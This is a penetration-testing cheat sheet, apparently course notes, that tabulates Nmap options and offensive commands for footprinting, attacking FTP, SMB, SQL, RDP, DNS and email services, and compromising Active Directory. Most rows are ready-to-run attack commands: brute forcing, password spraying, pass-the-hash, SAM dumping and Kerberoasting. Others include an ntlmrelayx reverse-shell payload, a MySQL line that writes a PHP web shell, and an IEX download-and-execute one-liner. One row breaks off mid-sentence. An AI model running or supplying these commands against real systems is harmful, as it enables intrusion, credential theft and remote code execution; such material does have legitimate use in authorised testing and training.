 # Nmap

## Nmap Options

| Nmap Option       | Description                                                               |
|-------------------|---------------------------------------------------------------------------|
| 10.10.10.0/24     | Target network range.                                                     |
| -sn               | Disables port scanning.                                                   |
| -Pn               | Disables ICMP Echo Requests                                               |
| -n                | Disables DNS Resolution.                                                  |
| -PE               | Performs the ping scan by using ICMP Echo Requests against the target.    |
| --packet-trace    | Shows all packets sent and received.                                      |
| --reason          | Displays the reason for a specific result.                                |
| --disable-arp-ping| Disables ARP Ping Requests.                                               |
| --top-ports=<num> | Scans the specified top ports that have been defined as most frequent.    |
| -p-               | Scan all ports.                                                           |
| -p22-110          | Scan all ports between 22 and 110.                                        |
| -p22,25           | Scans only the specified ports 22 and 25.                                 |
| -F                | Scans top 100 ports.                                                      |
| -sS               | Performs a TCP SYN-Scan.                                                  |
| -sA               | Performs a TCP ACK-Scan.                                                  |
| -sU               | Performs a UDP Scan.                                                      |
| -sV               | Scans the discovered services for their versions.                         |
| -sC               | Perform a Script Scan with scripts that are categorized as "default".     |
| --script <script> | Performs a Script Scan by using the specified scripts.                    |
| -O                | Performs an OS Detection Scan to determine the OS of the target.          |
| -A                | Performs OS Detection, Service Detection, and traceroute scans.           |
| -D RND:5          | Sets the number of random Decoys that will be used to scan the target.    |
| -e                | Specifies the network interface that is used for the scan.                |
| -S 10.10.10.200   | Specifies the source IP address for the scan.                             |
| -g                | Specifies the source port for the scan.                                   |
| --dns-server <ns> | DNS resolution is performed by using a specified name server.             |

## Output Options

| Nmap Option       | Description                                                               |
|-------------------|---------------------------------------------------------------------------|
| -oA filename      | Stores the results in all available formats starting with the name of "filename". |
| -oN filename      | Stores the results in normal format with the name "filename".             |
| -oG filename      | Stores the results in "grepable" format with the name of "filename".      |
| -oX filename      | Stores the results in XML format with the name of "filename".             |

## Performance Options

| Nmap Option       | Description                                                               |
|-------------------|---------------------------------------------------------------------------|
| --max-retries <num>| Sets the number of retries for scans of specific ports.                  |
| --stats-every=5s  | Displays scan's status every 5 seconds.                                   |
| -v/-vv            | Displays verbose output during the scan.                                  |
| --initial-rtt-timeout 50ms | Sets the specified time value as initial RTT timeout.           |
| --max-rtt-timeout 100ms | Sets the specified time value as maximum RTT timeout.              |
| --min-rate 300    | Sets the number of packets that will be sent simultaneously.              |
| -T <0-5>          | Specifies the specific timing template.                                   |

# Footprinting

## General Commands

| Command | Description |
|---------|-------------|
| `curl -s https://crt.sh/\?q\=<target-domain>\&output\=json \| jq .` | Certificate transparency. |
| `for i in $(cat ip-addresses.txt);do shodan host $i;done` | Scan each IP address in a list using Shodan. |

## Host-based Enumeration

### FTP

| Command | Description |
|---------|-------------|
| `ftp <FQDN/IP>` | Interact with the FTP service on the target. |
| `nc -nv <FQDN/IP> 21` | Interact with the FTP service on the target. |
| `telnet <FQDN/IP> 21` | Interact with the FTP service on the target. |
| `openssl s_client -connect <FQDN/IP>:21 -starttls ftp` | Interact with the FTP service on the target using encrypted connection. |
| `wget -m --no-passive ftp://anonymous:anonymous@<target>` | Download all available files on the target FTP server. |

### SMB

| Command | Description |
|---------|-------------|
| `smbclient -N -L //<FQDN/IP>` | Null session authentication on SMB. |
| `smbclient //<FQDN/IP>/<share>` | Connect to a specific SMB share. |
| `rpcclient -U "" <FQDN/IP>` | Interaction with the target using RPC. |
| `samrdump.py <FQDN/IP>` | Username enumeration using Impacket scripts. |
| `smbmap -H <FQDN/IP>` | Enumerating SMB shares. |
| `crackmapexec smb <FQDN/IP> --shares -u '' -p ''` | Enumerating SMB shares using null session authentication. |
| `enum4linux-ng.py <FQDN/IP> -A` | SMB enumeration using enum4linux. |

### NFS

| Command | Description |
|---------|-------------|
| `showmount -e <FQDN/IP>` | Show available NFS shares. |
| `mount -t nfs <FQDN/IP>:/<share> ./target-NFS/ -o nolock` | Mount the specific NFS share. |
| `umount ./target-NFS` | Unmount the specific NFS share. |

### DNS

| Command | Description |
|---------|-------------|
| `dig ns <domain.tld> @<nameserver>` | NS request to the specific nameserver. |
| `dig any <domain.tld> @<nameserver>` | ANY request to the specific nameserver. |
| `dig axfr <domain.tld> @<nameserver>` | AXFR request to the specific nameserver. |
| `dnsenum --dnsserver <nameserver> --enum -p 0 -s 0 -o found_subdomains.txt -f ~/subdomains.list <domain.tld>` | Subdomain brute forcing. |

### SMTP

| Command | Description |
|---------|-------------|
| `telnet <FQDN/IP> 25` | Interact with the SMTP service. |

### IMAP/POP3

| Command | Description |
|---------|-------------|
| `curl -k 'imaps://<FQDN/IP>' --user <user>:<password>` | Log in to the IMAPS service using cURL. |
| `openssl s_client -connect <FQDN/IP>:imaps` | Connect to the IMAPS service. |
| `openssl s_client -connect <FQDN/IP>:pop3s` | Connect to the POP3s service. |

### SNMP

| Command | Description |
|---------|-------------|
| `snmpwalk -v2c -c <community string> <FQDN/IP>` | Querying OIDs using snmpwalk. |
| `onesixtyone -c community-strings.list <FQDN/IP>` | Bruteforcing community strings of the SNMP service. |
| `braa <community string>@<FQDN/IP>:.1.*` | Bruteforcing SNMP service OIDs. |

### MySQL

| Command | Description |
|---------|-------------|
| `mysql -u <user> -p<password> -h <FQDN/IP>` | Login to the MySQL server. |

### MSSQL

| Command | Description |
|---------|-------------|
| `mssqlclient.py <user>@<FQDN/IP> -windows-auth` | Log in to the MSSQL server using Windows authentication. |

### IPMI

| Command | Description |
|---------|-------------|
| `msf6 auxiliary(scanner/ipmi/ipmi_version)` | IPMI version detection. |
| `msf6 auxiliary(scanner/ipmi/ipmi_dumphashes)` | Dump IPMI hashes. |

### Linux Remote Management

| Command | Description |
|---------|-------------|
| `ssh-audit.py <FQDN/IP>` | Remote security audit against the target SSH service. |
| `ssh <user>@<FQDN/IP>` | Log in to the SSH server using the SSH client. |
| `ssh -i private.key <user>@<FQDN/IP>` | Log in to the SSH server using private key. |
| `ssh <user>@<FQDN/IP> -o PreferredAuthentications=password` | Enforce password-based authentication. |

### Windows Remote Management

| Command | Description |
|---------|-------------|
| `rdp-sec-check.pl <FQDN/IP>` | Check the security settings of the RDP service. |
| `xfreerdp /u:<user> /p:"<password>" /v:<FQDN/IP>` | Log in to the RDP server from Linux. |
| `evil-winrm -i <FQDN/IP> -u <user> -p <password>` | Log in to the WinRM server. |
| `wmiexec.py <user>:"<password>"@<FQDN/IP> "<system command>"` | Execute command using the WMI service. |

### Oracle TNS

| Command | Description |
|---------|-------------|
| `./odat.py all -s <FQDN/IP>` | Perform a variety of scans to gather information about the Oracle database services and its components. |
| `sqlplus <user>/<pass>@<FQDN/IP>/<db>` | Log in to the Oracle database. |
| `./odat.py utlfile -s <FQDN/IP> -d <db> -U <user> -P <pass> --sysdba --putFile C:\\insert\\path file.txt ./file.txt` | Upload a file with Oracle RDBMS. |

# Attacking Common Services

## Attacking FTP

| Command | Description |
|---------|-------------|
| `ftp 192.168.2.142` | Connecting to the FTP server using the ftp client. |
| `nc -v 192.168.2.142 21` | Connecting to the FTP server using netcat. |
| `hydra -l user1 -P /usr/share/wordlists/rockyou.txt ftp://192.168.2.142` | Brute-forcing the FTP service. |

## Attacking SMB

| Command | Description |
|---------|-------------|
| `smbclient -N -L //10.129.14.128` | Null-session testing against the SMB service. |
| `smbmap -H 10.129.14.128` | Network share enumeration using smbmap. |
| `smbmap -H 10.129.14.128 -r notes` | Recursive network share enumeration using smbmap. |
| `smbmap -H 10.129.14.128 --download "notes\note.txt"` | Download a specific file from the shared folder. |
| `smbmap -H 10.129.14.128 --upload test.txt "notes\test.txt"` | Upload a specific file to the shared folder. |
| `rpcclient -U'%' 10.10.110.17` | Null-session with the rpcclient. |
| `./enum4linux-ng.py 10.10.11.45 -A -C` | Automated enumeration of the SMB service using enum4linux-ng. |
| `crackmapexec smb 10.10.110.17 -u /tmp/userlist.txt -p 'Company01!'` | Password spraying against different users from a list. |
| `impacket-psexec administrator:'Password123!'@10.10.110.17` | Connect to the SMB service using the impacket-psexec. |
| `crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec` | Execute a command over the SMB service using crackmapexec. |
| `crackmapexec smb 10.10.110.0/24 -u administrator -p 'Password123!' --loggedon-users` | Enumerating Logged-on users. |
| `crackmapexec smb 10.10.110.17 -u administrator -p 'Password123!' --sam` | Extract hashes from the SAM database. |
| `crackmapexec smb 10.10.110.17 -u Administrator -H 2B576ACBE6BCFDA7294D6BD18041B8FE` | Use the Pass-The-Hash technique to authenticate on the target host. |
| `impacket-ntlmrelayx --no-http-server -smb2support -t 10.10.110.146` | Dump the SAM database using impacket-ntlmrelayx. |
| `impacket-ntlmrelayx --no-http-server -smb2support -t 192.168.220.146 -c 'powershell -e <base64 reverse shell>` | Execute a PowerShell based reverse shell using impacket-ntlmrelayx. |

## Attacking SQL Databases

| Command | Description |
|---------|-------------|
| `mysql -u julio -pPassword123 -h 10.129.20.13` | Connecting to the MySQL server. |
| `sqlcmd -S SRVMSSQL\SQLEXPRESS -U julio -P 'MyPassword!' -y 30 -Y 30` | Connecting to the MSSQL server. |
| `sqsh -S 10.129.203.7 -U julio -P 'MyPassword!' -h` | Connecting to the MSSQL server from Linux. |
| `sqsh -S 10.129.203.7 -U .\\julio -P 'MyPassword!' -h` | Connecting to the MSSQL server from Linux while Windows Authentication mechanism is used by the MSSQL server. |
| `mysql> SHOW DATABASES;` | Show all available databases in MySQL. |
| `mysql> USE htbusers;` | Select a specific database in MySQL. |
| `mysql> SHOW TABLES;` | Show all available tables in the selected database in MySQL. |
| `mysql> SELECT * FROM users;` | Select all available entries from the "users" table in MySQL. |
| `sqlcmd> SELECT name FROM master.dbo.sysdatabases` | Show all available databases in MSSQL. |
| `sqlcmd> USE htbusers` | Select a specific database in MSSQL. |
| `sqlcmd> SELECT * FROM htbusers.INFORMATION_SCHEMA.TABLES` | Show all available tables in the selected database in MSSQL. |
| `sqlcmd> SELECT * FROM users` | Select all available entries from the "users" table in MSSQL. |
| `sqlcmd> EXECUTE sp_configure 'show advanced options', 1` | To allow advanced options to be changed. |
| `sqlcmd> EXECUTE sp_configure 'xp_cmdshell', 1` | To enable the xp_cmdshell. |
| `sqlcmd> RECONFIGURE` | To be used after each sp_configure command to apply the changes. |
| `sqlcmd> xp_cmdshell 'whoami'` | Execute a system command from MSSQL server. |
| `mysql> SELECT "<?php echo shell_exec($_GET['c']);?>" INTO OUTFILE '/var/www/html/webshell.php'` | Create a file using MySQL. |
| `mysql> show variables like "secure_file_priv";` | Check if the secure file privileges are empty to read locally stored files on the system. |
| `sqlcmd> SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents` | Read local files in MSSQL. |
| `mysql> select LOAD_FILE("/etc/passwd");` | Read local files in MySQL. |
| `sqlcmd> EXEC master..xp_dirtree '\\10.10.110.17\share\'` | Hash stealing using the xp_dirtree command in MSSQL. |
| `sqlcmd> EXEC master..xp_subdirs '\\10.10.110.17\share\'` | Hash stealing using the xp_subdirs command in MSSQL. |
| `sqlcmd> SELECT srvname, isremote FROM sysservers` | Identify linked servers in MSSQL. |
| `sqlcmd> EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]` | Identify the user and its privileges used for the remote connection in MSSQL. |

## Attacking RDP

| Command | Description |
|---------|-------------|
| `crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'` | Password spraying against the RDP service. |
| `hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp` | Brute-forcing the RDP service. |
| `rdesktop -u admin -p password123 192.168.2.143` | Connect to the RDP service using rdesktop in Linux. |
| `tscon #{TARGET_SESSION_ID} /dest:#{OUR_SESSION_NAME}` | Impersonate a user without its password. |
| `net start sessionhijack` | Execute the RDP session hijack. |
| `reg add HKLM\System\CurrentControlSet\Control\Lsa /t REG_DWORD /v DisableRestrictedAdmin /d 0x0 /f` | Enable "Restricted Admin Mode" on the target Windows host. |
| `xfreerdp /v:192.168.2.141 /u:admin /pth:A9FDFA038C4B75EBC76DC855DD74F0DA` | Use the Pass-The-Hash technique to login on the target host without a password. |

## Attacking DNS

| Command | Description |
|---------|-------------|
| `dig AXFR @ns1.inlanefreight.htb inlanefreight.htb` | Perform an AXFR zone transfer attempt against a specific name server. |
| `subfinder -d inlanefreight.com -v` | Brute-forcing subdomains. |
| `host support.inlanefreight.com` | DNS lookup for the specified subdomain. |

## Attacking Email Services

| Command | Description |
|---------|-------------|
| `host -t MX microsoft.com` | DNS lookup for mail servers for the specified domain. |
| `dig mx inlanefreight.com \| grep "MX" \| grep -v ";"` | DNS lookup for mail servers for the specified domain. |
| `host -t A mail1.inlanefreight.htb.` | DNS lookup of the IPv4 address for the specified subdomain. |
| `telnet 10.10.110.20 25` | Connect to the SMTP server. |
| `smtp-user-enum -M RCPT -U userlist.txt -D inlanefreight.htb -t 10.129.203.7` | SMTP user enumeration using the RCPT command against the specified host. |
| `python3 o365spray.py --validate --domain msplaintext.xyz` | Verify the usage

# Active Directory

## General Commands

| Command | Description |
|---------|-------------|
| `nslookup ns1.inlanefreight.com` | Used to query the domain name system and discover the IP address to domain name mapping of the target entered from a Linux-based host. |
| `sudo tcpdump -i ens224` | Used to start capturing network packets on the network interface proceeding the -i option on a Linux-based host. |
| `sudo responder -I ens224 -A` | Used to start responding to & analyzing LLMNR, NBT-NS and MDNS queries on the interface specified proceeding the -I option and operating in Passive Analysis mode which is activated using -A. Performed from a Linux-based host. |
| `fping -asgq 172.16.5.0/23` | Performs a ping sweep on the specified network segment from a Linux-based host. |
| `sudo nmap -v -A -iL hosts.txt -oN /home/User/Documents/host-enum` | Performs an nmap scan with OS detection, version detection, script scanning, and traceroute enabled (-A) based on a list of hosts (hosts.txt) specified in the file proceeding -iL. Then outputs the scan results to the file specified after the -oN option. Performed from a Linux-based host. |
| `sudo git clone https://github.com/ropnop/kerbrute.git` | Uses git to clone the kerbrute tool from a Linux-based host. |
| `make help` | Used to list compiling options that are possible with make from a Linux-based host. |
| `sudo make all` | Used to compile a Kerbrute binary for multiple OS platforms and CPU architectures. |
| `./kerbrute_linux_amd64` | Used to test the chosen compiled Kerbrute binary from a Linux-based host. |
| `sudo mv kerbrute_linux_amd64 /usr/local/bin/kerbrute` | Used to move the Kerbrute binary to a directory that can be set to be in a Linux user's path. Making it easier to use the tool. |
| `./kerbrute_linux_amd64 userenum -d INLANEFREIGHT.LOCAL --dc 172.16.5.5 jsmith.txt -o kerb-results` | Runs the Kerbrute tool to discover usernames in the domain (INLANEFREIGHT.LOCAL) specified proceeding the -d option and the associated domain controller specified proceeding --dc using a wordlist and outputs (-o) the results to a specified file. Performed from a Linux-based host. |

## LLMNR/NTB-NS Poisoning

| Command | Description |
|---------|-------------|
| `responder -h` | Used to display the usage instructions and various options available in Responder from a Linux-based host. |
| `hashcat -m 5600 forend_ntlmv2 /usr/share/wordlists/rockyou.txt` | Uses hashcat to crack NTLMv2 (-m) hashes that were captured by responder and saved in a file (forend_ntlmv2). The cracking is done based on a specified wordlist. |
| `Import-Module .\Inveigh.ps1` | Using the Import-Module PowerShell cmdlet to import the Windows-based tool Inveigh.ps1. |
| `(Get-Command Invoke-Inveigh).Parameters` | Used to output many of the options & functionality available with Invoke-Inveigh. Performed from a Windows-based host. |
| `Invoke-Inveigh Y -NBNS Y -ConsoleOutput Y -FileOutput Y` | Starts Inveigh on a Windows-based host with LLMNR & NBNS spoofing enabled and outputs the results to a file. |
| `.\Inveigh.exe` | Starts the C# implementation of Inveigh from a Windows-based host. |
| `$regkey = "HKLM:SYSTEM\CurrentControlSet\services\NetBT\Parameters\Interfaces" Get-ChildItem $regkey |foreach { Set-ItemProperty -Path "$regkey\$($_.pschildname)" -Name NetbiosOptions -Value 2 -Verbose}` | PowerShell script used to disable NBT-NS on a Windows host. |

## Password Spraying & Password Policies

| Command | Description |
|---------|-------------|
| `#!/bin/bash for x in {{A..Z},{0..9}}{{A..Z},{0..9}}{{A..Z},{0..9}}{{A..Z},{0..9}} do echo $x; done` | Bash script used to generate 16,079,616 possible username combinations from a Linux-based host. |
| `crackmapexec smb 172.16.5.5 -u avazquez -p Password123 --pass-pol` | Uses CrackMapExec and valid credentials (avazquez:Password123) to enumerate the password policy (--pass-pol) from a Linux-based host. |
| `rpcclient -U "" -N 172.16.5.5` | Uses rpcclient to discover information about the domain through SMB NULL sessions. Performed from a Linux-based host. |
| `rpcclient $> querydominfo` | Uses rpcclient to enumerate the password policy in a target Windows domain from a Linux-based host. |
| `enum4linux -P 172.16.5.5` | Uses enum4linux to enumerate the password policy (-P) in a target Windows domain from a Linux-based host. |
| `enum4linux-ng -P 172.16.5.5 -oA ilfreight` | Uses enum4linux-ng to enumerate the password policy (-P) in a target Windows domain from a Linux-based host, then presents the output in YAML & JSON saved in a file proceeding the -oA option. |
| `ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "*" | grep -m 1 -B 10 pwdHistoryLength` | Uses ldapsearch to enumerate the password policy in a target Windows domain from a Linux-based host. |
| `net accounts` | Used to enumerate the password policy in a Windows domain from a Windows-based host. |
| `Import-Module .\PowerView.ps1` | Uses the Import-Module cmdlet to import the PowerView.ps1 tool from a Windows-based host. |
| `Get-DomainPolicy` | Used to enumerate the password policy in a target Windows domain from a Windows-based host. |
| `enum4linux -U 172.16.5.5 | grep "user:" | cut -f2 -d"[" | cut -f1 -d"]"` | Uses enum4linux to discover user accounts in a target Windows domain, then leverages grep to filter the output to just display the user from a Linux-based host. |
| `rpcclient -U "" -N 172.16.5.5 rpcclient $> enumdomuser` | Uses rpcclient to discover user accounts in a target Windows domain from a Linux-based host. |
| `crackmapexec smb 172.16.5.5 --users` | Uses CrackMapExec to discover users (--users) in a target Windows domain from a Linux-based host. |
| `ldapsearch -h 172.16.5.5 -x -b "DC=INLANEFREIGHT,DC=LOCAL" -s sub "(&(objectclass=user))" | grep sAMAccountName: | cut -f2 -d" "` | Uses ldapsearch to discover users in a target Windows domain, then filters the output using grep to show only the sAMAccountName from a Linux-based host. |
| `./windapsearch.py --dc-ip 172.16.5.5 -u "" -U` | Uses the python tool windapsearch.py to discover users in a target Windows domain from a Linux-based host. |
| `for u in $(cat valid_users.txt);do rpcclient -U "$u%Welcome1" -c "getusername;quit" 172.16.5.5 | grep Authority; done` | Bash one-liner used to perform a password spraying attack using rpcclient and a list of users (valid_users.txt) from a Linux-based host. It also filters out failed attempts to make the output cleaner. |
| `kerbrute passwordspray -d inlanefreight.local --dc 172.16.5.5 valid_users.txt Welcome1` | Uses kerbrute and a list of users (valid_users.txt) to perform a password spraying attack against a target Windows domain from a Linux-based host. |
| `sudo crackmapexec smb 172.16.5.5 -u valid_users.txt -p Password123 | grep +` | Uses CrackMapExec and a list of users (valid_users.txt) to perform a password spraying attack against a target Windows domain from a Linux-based host. It also filters out logon failures using grep. |
| `sudo crackmapexec smb 172.16.5.5 -u avazquez -p Password123` | Uses CrackMapExec to validate a set of credentials from a Linux-based host. |
| `sudo crackmapexec smb --local-auth 172.16.5.0/24 -u administrator -H 88ad09182de639ccc6579eb0849751cf | grep +` | Uses CrackMapExec and the --local-auth flag to ensure only one login attempt is performed from a Linux-based host. This is to ensure accounts are not locked out by enforced password policies. It also filters out logon failures using grep. |
| `Import-Module .\DomainPasswordSpray.ps1` | Used to import the PowerShell-based tool DomainPasswordSpray.ps1 from a Windows-based host. |
| `Invoke-DomainPasswordSpray -Password Welcome1 -OutFile spray_success -ErrorAction SilentlyContinue` | Performs a password spraying attack and outputs (-OutFile) the results to a specified file (spray_success) from a Windows-based host. |

## Enumerating Security Controls

| Command | Description |
|---------|-------------|
| `Get-MpComputerStatus` | PowerShell cmdlet used to check the status of Windows Defender Anti-Virus from a Windows-based host. |
| `Get-AppLockerPolicy -Effective | select -ExpandProperty RuleCollections` | PowerShell cmdlet used to view AppLocker policies from a Windows-based host. |
| `$ExecutionContext.SessionState.LanguageMode` | PowerShell script used to discover the PowerShell Language Mode being used on a Windows-based host. Performed from a Windows-based host. |
| `Find-LAPSDelegatedGroups` | A LAPSToolkit function that discovers LAPS Delegated Groups from a Windows-based host. |
| `Find-AdmPwdExtendedRights` | A LAPSToolkit function that checks the rights on each computer with LAPS enabled for any groups with read access and users with All Extended Rights. Performed from a Windows-based host. |
| `Get-LAPSComputers` | A LAPSToolkit function that searches for computers that have LAPS enabled, discover password expiration and can discover randomized passwords. Performed from a Windows-based host. |

## Credentialed Enumeration

| Command | Description |
|---------|-------------|
| `xfreerdp /u:forend@inlanefreight.local /p:Klmcargo2 /v:172.16.5.25` | Connects to a Windows target using valid credentials. Performed from a Linux-based host. |
| `sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --users` | Authenticates with a Windows target over smb using valid credentials and attempts to discover more users (--users) in a target Windows domain. Performed from a Linux-based host. |
| `sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --groups` | Authenticates with a Windows target over smb using valid credentials and attempts to discover groups (--groups) in a target Windows domain. Performed from a Linux-based host. |
| `sudo crackmapexec smb 172.16.5.125 -u forend -p Klmcargo2 --loggedon-users` | Authenticates with a Windows target over smb using valid credentials and attempts to check for a list of logged on users (--loggedon-users) on the target Windows host. Performed from a Linux-based host. |
| `sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 --shares` | Authenticates with a Windows target over smb using valid credentials and attempts to discover any smb shares (--shares). Performed from a Linux-based host. |
| `sudo crackmapexec smb 172.16.5.5 -u forend -p Klmcargo2 -M spider_plus --share Dev-share` | Authenticates with a Windows target over smb using valid credentials and utilizes the CrackMapExec module (-M) spider_plus to go through each readable share (Dev-share) and list all readable files. The results are outputted in JSON. Performed from a Linux-based host. |
| `smbmap -u forend -p Klmcargo2 -d INLANEFREIGHT.LOCAL -H 172.16.5.5` | Enumerates the target Windows domain using valid credentials and lists shares & permissions available on each within the context of the valid credentials used and the target Windows host (-H). Performed from a Linux-based host. |
| `smbmap -u forend -p Klmcargo2 -d INLANEFREIGHT.LOCAL -H 172.16.5.5 -R SYSVOL --dir-only` | Enumerates the target Windows domain using valid credentials and performs a recursive listing (-R) of the specified share (SYSVOL) and only outputs a list of directories (--dir-only) in the share. Performed from a Linux-based host. |
| `rpcclient $> queryuser 0x457` | Enumerates a target user account in a Windows domain using its relative identifier (0x457). Performed from a Linux-based host. |
| `rpcclient $> enumdomusers` | Discovers user accounts in a target Windows domain and their associated relative identifiers (rid). Performed from a Linux-based host. |
| `psexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.125` | Impacket tool used to connect to the CLI of a Windows target via the ADMIN$ administrative share with valid credentials. Performed from a Linux-based host. |
| `wmiexec.py inlanefreight.local/wley:'transporter@4'@172.16.5.5` | Impacket tool used to connect to the CLI of a Windows target via WMI with valid credentials. Performed from a Linux-based host. |
| `windapsearch.py -h` | Used to display the options and functionality of windapsearch.py. Performed from a Linux-based host. |
| `python3 windapsearch.py --dc-ip 172.16.5.5 -u inlanefreight\wley -p transporter@4 --da` | Used to enumerate the domain admins group (--da) using a valid set of credentials on a target Windows domain. Performed from a Linux-based host. |
| `python3 windapsearch.py --dc-ip 172.16.5.5 -u inlanefreight\wley -p transporter@4 -PU` | Used to perform a recursive search (-PU) for users with nested permissions using valid credentials. Performed from a Linux-based host. |
| `sudo bloodhound-python -u 'forend' -p 'Klmcargo2' -ns 172.16.5.5 -d inlanefreight.local -c all` | Executes the python implementation of BloodHound (bloodhound.py) with valid credentials and specifies a name server (-ns) and target Windows domain (inlanefreight.local) as well as runs all checks (-c all). Runs using valid credentials. Performed from a Linux-based host. |

## Enumeration by Living Off the Land

| Command | Description |
|---------|-------------|
| `Get-Module` | PowerShell cmdlet used to list all available modules, their version and command options from a Windows-based host. |
| `Import-Module ActiveDirectory` | Loads the Active Directory PowerShell module from a Windows-based host. |
| `Get-ADDomain` | PowerShell cmdlet used to gather Windows domain information from a Windows-based host. |
| `Get-ADUser -Filter {ServicePrincipalName -ne "$null"} -Properties ServicePrincipalName` | PowerShell cmdlet used to enumerate user accounts on a target Windows domain and filter by ServicePrincipalName. Performed from a Windows-based host. |
| `Get-ADTrust -Filter *` | PowerShell cmdlet used to enumerate any trust relationships in a target Windows domain and filters by any (-Filter *). Performed from a Windows-based host. |
| `Get-ADGroup -Filter * | select name` | PowerShell cmdlet used to enumerate groups in a target Windows domain and filters by the name of the group (select name). Performed from a Windows-based host. |
| `Get-ADGroup -Identity "Backup Operators"` | PowerShell cmdlet used to search for a specific group (-Identity "Backup Operators"). Performed from a Windows-based host. |
| `Get-ADGroupMember -Identity "Backup Operators"` | PowerShell cmdlet used to discover the members of a specific group (-Identity "Backup Operators"). Performed from a Windows-based host. |
| `Export-PowerViewCSV` | PowerView script used to append results to a CSV file. Performed from a Windows-based host. |
| `ConvertTo-SID` | PowerView script used to convert a User or Group name to its SID. Performed from a Windows-based host. |
| `Get-DomainSPNTicket` | PowerView script used to request the kerberos ticket for a specified service principal name (SPN). Performed from a Windows-based host. |
| `Get-Domain` | PowerView script used to return the AD object for the current (or specified) domain. Performed from a Windows-based host. |
| `Get-DomainController` | PowerView script used to return a list of the target domain controllers for the specified target domain. Performed from a Windows-based host. |
| `Get-DomainUser` | PowerView script used to return all users or specific user objects in AD. Performed from a Windows-based host. |
| `Get-DomainComputer` | PowerView script used to return all computers or specific computer objects in AD. Performed from a Windows-based host. |
| `Get-DomainGroup` | PowerView script used to return all groups or specific group objects in AD. Performed from a Windows-based host. |
| `Get-DomainOU` | PowerView script used to search for all or specific OU objects in AD. Performed from a Windows-based host. |
| `Find-InterestingDomainAcl` | PowerView script used to find object ACLs in the domain with modification rights set to non-built in objects. Performed from a Windows-based host. |
| `Get-DomainGroupMember` | PowerView script used to return the members of a specific domain group. Performed from a Windows-based host. |
| `Get-DomainFileServer` | PowerView script used to return a list of servers likely functioning as file servers. Performed from a Windows-based host. |
| `Get-DomainDFSShare` | PowerView script used to return a list of all distributed file systems for the current (or specified) domain. Performed from a Windows-based host. |
| `Get-DomainGPO` | PowerView script used to return all GPOs or specific GPO objects in AD. Performed from a Windows-based host. |
| `Get-DomainPolicy` | PowerView script used to return the default domain policy or the domain controller policy for the current domain. Performed from a Windows-based host. |
| `Get-NetLocalGroup` | PowerView script used to enumerate local groups on a local or remote machine. Performed from a Windows-based host. |
| `Get-NetLocalGroupMember` | PowerView script used to enumerate members of a specific local group. Performed from a Windows-based host. |
| `Get-NetShare` | PowerView script used to return a list of open shares on a local (or a remote) machine. Performed from a Windows-based host. |
| `Get-NetSession` | PowerView script used to return session information for the local (or a remote) machine. Performed from a Windows-based host. |
| `Test-AdminAccess` | PowerView script used to test if the current user has administrative access to the local (or a remote) machine. Performed from a Windows-based host. |
| `Find-DomainUserLocation` | PowerView script used to find machines where specific users are logged into. Performed from a Windows-based host. |
| `Find-DomainShare` | PowerView script used to find reachable shares on domain machines. Performed from a Windows-based host. |
| `Find-InterestingDomainShareFile` | PowerView script that searches for files matching specific criteria on readable shares in the domain. Performed from a Windows-based host. |
| `Find-LocalAdminAccess` | PowerView script used to find machines on the local domain where the current user has local administrator access. Performed from a Windows-based host. |
| `Get-DomainTrust` | PowerView script that returns domain trusts for the current domain or a specified domain. Performed from a Windows-based host. |
| `Get-ForestTrust` | PowerView script that returns all forest trusts for the current forest or a specified forest. Performed from a Windows-based host. |
| `Get-DomainForeignUser` | PowerView script that enumerates users who are in groups outside of the user's domain. Performed from a Windows-based host. |
| `Get-DomainForeignGroupMember` | PowerView script that enumerates groups with users outside of the group's domain and returns each foreign member. Performed from a Windows-based host. |
| `Get-DomainTrustMapping` | PowerView script that enumerates all trusts for current domain and any others seen. Performed from a Windows-based host. |
| `Get-DomainGroupMember -Identity "Domain Admins" -Recurse` | PowerView script used to list all the members of a target group ("Domain Admins") through the use of the recurse option (-Recurse). Performed from a Windows-based host. |
| `Get-DomainUser -SPN -Properties samaccountname,ServicePrincipalName` | PowerView script used to find users on the target Windows domain that have the Service Principal Name set. Performed from a Windows-based host. |
| `.\Snaffler.exe -d INLANEFREIGHT.LOCAL -s -v data` | Runs a tool called Snaffler against a target Windows domain that finds various kinds of data in shares that the compromised account has access to. Performed from a Windows-based host. |

## Transferring Files

| Command | Description |
|---------|-------------|
| `sudo python3 -m http.server 8001` | Starts a python web server for quick hosting of files. Performed from a Linux-based host. |
| `"IEX(New-Object Net.WebClient).downloadString('http://172.16.5.222/SharpHound.exe')"` | PowerShell one-liner used to download a file from a web server. Performed from a Windows-based host. |
| `impacket-smbserver -ip 172.16.5.x -smb2support -username user -password password shared /home/administrator/Downloads/` | Starts an impacket SMB server for quick hosting of a file. Performed from a Windows-based host. |

## Kerberoasting

| Command | Description |
|---------|-------------|
| `sudo python3 -m pip install .` | Used to install Impacket from inside the directory that gets cloned to the attack host. Performed from a Linux-based host. |
| `GetUserSPNs.py -h` | Impacket tool used to display the options and functionality of GetUserSPNs.py from a Linux-based host. |
| `GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/mholliday` | Impacket tool used to get a list of SPNs on the target Windows domain from a Linux-based host. |
| `GetUserSPNs.py -dc-ip 172.16.5.5 INLANEFREIGHT.LOCAL/mholliday -request` | Impacket tool used to download/request (-request) all TGS tickets for offline processing from a Linux-based host. |
